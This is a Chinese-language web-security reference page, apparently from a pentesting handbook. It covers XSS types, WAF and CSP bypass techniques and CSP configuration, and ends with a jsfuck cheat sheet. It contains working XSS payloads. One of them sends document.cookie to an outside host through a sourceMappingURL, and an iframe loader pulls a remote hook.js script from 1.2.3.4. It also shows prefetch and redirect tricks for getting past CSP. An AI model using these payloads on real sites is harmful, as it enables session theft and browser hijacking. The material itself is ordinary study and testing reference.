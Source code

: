 XSS
================================

分类
--------------------------------
反射型XSS
    一次浏览，最常见，最广泛
    e.g ``http://www.baidu.com<script>alert("hack")</script>``
储存型XSS
    危害较大，把相应脚本传到服务器上
DOM XSS
    类似储存型


WAF Bypass技巧
--------------------------------
1. 利用<>标记
2. 利用html属性
    - href
    - lowsrc
    - bgsound
    - background
    - value
    - action
    - dynsrc

3. 利用回车拆分关键字
4. 利用编码绕过
    - jsfuck
    - String.fromCharCode
    - HTML
    - URL

5. 大小写混淆
6. 对标签属性值转码
7. 产生事件
8. css跨站解析


CSP
--------------------------------

CSP是什么？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Content Security Policy，简称 CSP。顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。


配置
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

CSP策略可以通过 HTTP 头信息或者 meta 元素定义。

CSP 有三类：

- Content-Security-Policy  (Google Chrome)
- X-Content-Security-Policy (Firefox)
- X-WebKit-CSP (WebKit-based browsers, e.g. Safari)

::

    HTTP header :
    "Content-Security-Policy:" 策略
    "Content-Security-Policy-Report-Only:" 策略


HTTP Content-Security-Policy 头可以指定一个或多个资源是安全的，而Content-Security-Policy-Report-Only则是允许服务器检查（非强制）一个策略。多个头的策略定义由优先采用最先定义的。

HTML Meta :
::

    <meta http-equiv="content-security-policy" content="策略">
    <meta http-equiv="content-security-policy-report-only" content="策略">


指令说明
########################################

============    ============
指令            说明     
============    ============
default-src     定义资源默认加载策略
connect-src     定义 Ajax、WebSocket 等加载策略
font-src        定义 Font 加载策略
frame-src       定义 Frame 加载策略
img-src         定义图片加载策略
media-src       定义 <audio>、<video> 等引用资源加载策略
object-src      定义 <applet>、<embed>、<object> 等引用资源加载策略
script-src      定义 JS 加载策略
style-src       定义 CSS 加载策略
sandbox         值为 allow-forms，对资源启用 sandbox
report-uri      值为 /report-uri，提交日志
============    ============

关键字
########################################

+--------------------+----------------------------+------------------------------------------------------------------+
| 属性值             | 示例                       | 说明                                                             |
+====================+============================+==================================================================+
| -                  | img-src -                  | 允许从任意url加载，除了data:blob:filesystem:schemes              |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'none'             | object-src 'none'          | 禁止从任何url加载资源                                            |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'self'             | img-src 'self'             | 只可以加载同源资源                                               |
+--------------------+----------------------------+------------------------------------------------------------------+
| data:              | img-src 'self' data:       | 可以通过data协议加载资源                                         |
+--------------------+----------------------------+------------------------------------------------------------------+
| domain.example.com | ing-src domain.example.com | 只可以从特定的域加载资源                                         |
+--------------------+----------------------------+------------------------------------------------------------------+
| \*.example.com     | img-src \*.example.com     | 可以从任意example.com的子域处加载资源                            |
+--------------------+----------------------------+------------------------------------------------------------------+
| https://cdn.com    | img-src https://cdn.com    | 只能从给定的域用https加载资源                                    |
+--------------------+----------------------------+------------------------------------------------------------------+
| https:             | img-src https:             | 只能从任意域用https加载资源                                      |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'unsafe-inline'    | script-src 'unsafe-inline' | 允许内部资源执行代码例如style attribute,onclick或者是sicript标签 |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'unsafe-eval'      | script-src 'unsafe-eval'   | 允许一些不安全的代码执行方式，例如js的eval()                     |
+--------------------+----------------------------+------------------------------------------------------------------+

- ``none``：你可能期望不匹配任何内容
- ``self``：与当前来源相同，但不包含子域
- ``unsafe-inline``：允许内联Javascript和CSS
- ``unsafe-eval``：允许文本到JS的机制例如eval

配置范例
########################################

允许执行内联 JS 代码，但不允许加载外部资源
::

    Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';


Bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

预加载
########################################
浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有unsafe-inline，则用预加载的方式可以向外界发出请求，例如

::

    <!-- 预加载某个页面 -->
    <link rel='prefetch' href='http://xxxx'><!-- firefox -->
    <link rel='prerender' href='http://xxxx'><!-- chrome -->
    <!-- 预加载某个图片 -->
    <link rel='prefetch' href='http://xxxx/x.jpg'>
    <!-- DNS 预解析 -->
    <link rel="dns-prefetch" href="http://xxxx">
    <!-- 特定文件类型预加载 -->
    <link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

- URL中包含下载资源
- 页面中包含音频、视频
- POST、PUT和DELET操作的ajax请求
- HTTP认证
- HTTPS页面
- 含恶意软件的页面
- 弹窗页面
- 占用资源很多的页面
- 打开了chrome developer tools开发工具

MIME Sniff
########################################

举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再``<script href='http://xxx.com/xx.jpg'>``，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本


302跳转
########################################

对于302跳转绕过CSP而言，实际上有以下几点限制：

- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致

其他
########################################

- CND Bypass,如果网站信任了某个CDN, 那么可利用相应的CDN bypass
- Angular versions <1.5.9 >=1.5.0，存在漏洞 `Git pr <https://github.com/angular/angular.js/pull/15346>`_
- jQuery sourcemap 
    ::

        document.write(`<script>
        //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
- a标签的ping属性
- For FireFox ``<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">``
- ``<link rel="import" />``
- 利用object

Payload
--------------------------------

- 常用
    ``<script>alert(/xss/)</script>``
- 伪协议
    ``<table background="javascript:alert(/xss/)"></table>``
- Chrome XSS auditor bypass with HPP
    ``?param=https://&param=@z.exeye.io/import%20rel=import%3E``
- 事件属性
    ``<img src=x onerror="alert(/xss/)" />``
- 长度限制

:: 

    <script>s+="l"</script>
    \...
    <script>eval(s)</script>

- jquery sourceMappingURL
    ``</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>``
- 图片名
    ``"><img src=x onerror=alert(document.cookie)>.gif``

- 过期的payload
    - src=javascript:alert基本不可以用
    - css expression特性只在旧版本ie可用
- css
    ``<div style="background-image:url(javascript:alert(/xss/))">
    <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>``

- iframe

::

    <iframe onload='
        var sc   = document.createElement("scr" + "ipt");
        sc.type  = "text/javascr" + "ipt";
        sc.src   = "http://1.2.3.4/js/hook.js";
        document.body.appendChild(sc);
        '
    />

- meta
    ``<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">``


前端技巧
--------------------------------

jsfuck cheat sheet
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Basic values
########################################
- ``undefined`` > ``[][[]]``
- ``false`` > ``![]``
- ``true`` > ``!![]``
- ``NaN`` > ``+[![]]``
- ``0`` > ``+[]``
- ``1`` > ``+!+[]``
- ``2`` > ``!+[]+!+[]``

Basic strings
########################################
- ``''`` > ``[]+[]``
- ``'undefined'`` > ``[]+[][[]]``
- ``'false'`` > ``[]+![]``
- ``'true'`` > ``[]+!![]``
- ``'NaN'`` > ``[]+(+[![]])``
- ``'0'`` > ``[]+(+[])``
- ``'1'`` > ``[]+(+!+[])``
- ``'2'`` > ``[]+(!+[]+!+[])``
- ``'10'`` > ``[+!+[]]+[+[]]``
- ``'11'`` > ``[+!+[]]+[+!+[]]``
- ``'100'`` > ``[+!+[]]+[+[]]+(+[])``

Higher numbers
########################################

- ``10`` > ``+([+!+[]]+[+[]])``
- ``11`` > ``+([+!+[]]+[+!+[]])``
- ``100`` > ``+([+!+[]]+[+[]]+(+[]))``

String alphabet
########################################
- ``'a'`` > ``([]+![])[+!+[]]``
- ``'d'`` > ``([]+[][[]])[+!+[]+!+[]]``
- ``'e'`` > ``([]+!+[])[+!+[]+!+[]+!+[]]``
- ``'f'`` > ``([]+![])[+[]]``
- ``'i'`` > ``([]+[][[]])[+!+[]+!+[]+!+[]+!+[]+!+[]]``
- ``'l'`` > ``([]+![])[+!+[]+!+[]]``
- ``'n'`` > ``([]+[][[]])[+!+[]]``
- ``'r'`` > ``([]+!+[])[+!+[]]``
- ``'s'`` > ``([]+![])[+!+[]+!+[]+!+[]]``
- ``'t'`` > ``([]+!+[])[+[]]``
- ``'u'`` > ``([]+!+[])[+!+[]+!+[]]``

参考链接
--------------------------------

- `w3c <https://w3c.github.io/webappsec-csp/>`_
- `content-security-policy.com <https://content-security-policy.com/>`_
